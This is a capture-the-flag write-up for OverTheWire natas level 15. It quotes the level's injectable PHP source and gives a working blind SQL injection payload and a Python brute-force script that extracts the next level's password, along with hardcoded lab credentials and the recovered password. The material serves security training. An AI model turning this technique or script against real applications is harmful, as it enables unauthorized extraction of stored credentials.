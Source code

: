 ```yaml
---
title: natas 15 walkthrough
description: over the wire natas 15
layout: libdoc_page
date: 1111-11-11
eleventyNavigation:
    key: natas-15 OverTheWire CTFs
    parent: OverTheWire CTFs
    title: natas 15 walkthrough
    order: 30
---
```

# Description
>   Username: natas15
> 
>    URL:      http://natas15.natas.labs.overthewire.org
  
## Source Code 
```php
<?php

/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysqli_connect('localhost', 'natas15', '<censored>');
    mysqli_select_db($link, 'natas15');

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysqli_query($link, $query);
    if($res) {
    if(mysqli_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
    } else {
        echo "Error in query.<br>";
    }

    mysqli_close($link);
} else {
?>
```

---
# Progress
## Observation
It is an easy [[sql injection MOC]], but that seems useless.
Username : `natas16` -> This user exists.
The goal is retrieving the password of natas16. We cannot make the server print the password. The only thing we can do is check if the query returns anything. Therefore, we can input the password and check if the password is correct.
## Payload
Check password `natas16" and password = "pw" -- `
Find password

## Search by Exhaust
```python
import requests
from bs4 import BeautifulSoup

def request_with_password(password : str) -> bool:
    payload = f"?username=natas16\" and password like binary \"{password}%\" -- "
    return request_with_payload(payload)

def request_with_payload(payload: str):
    header = {
        "Authorization" : "Basic bmF0YXMxNTpUVGthSTdBV0c0aURFUnp0QmNFeUtWN2tSWEgxRVpSQg==",
    }
    url = "http://natas15.natas.labs.overthewire.org/index.php"
    url += payload
    response = requests.get(url, headers=header)
    soup = BeautifulSoup(response.text, 'html.parser')
    content = soup.select('#content')
    return "exists" in content.__str__()

def main():
    success_password = ""
    letters = 'abcdefghijklmnopqrstuvwxyz'
    candidates = letters + letters.upper() + "0123456789"
    while True:
        for candidate in candidates:
            if request_with_password(success_password + candidate):
                success_password += candidate
                print(success_password)
                break
        else:
            print(f"password : {success_password}")
            break

main()
```
TRD7iZrd5gATjj9PkPEuaOlfEjHqj32V

---
# Hint

---
# Solving
## Category
- [[sql injection MOC]]
## Techniques
- 

## Tools
- 